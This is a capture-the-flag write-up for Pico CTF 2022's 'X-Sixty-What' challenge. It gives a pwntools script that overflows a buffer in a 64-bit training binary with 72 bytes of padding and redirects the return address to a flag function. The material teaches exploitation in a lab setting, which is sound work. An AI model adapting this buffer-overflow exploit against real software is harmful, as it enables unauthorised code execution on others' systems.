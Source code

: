 ```yaml
---
name: X-Sixty-What (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for X-Sixty-What (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# X-Sixty-What

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2358 "Pico CTF 2022: X-Sixty-What")

## Description

> Most problems before this are 32-bit x86. Now we’ll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 72

payload = flat(
    b'A' * padding,
    0x40123b
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```
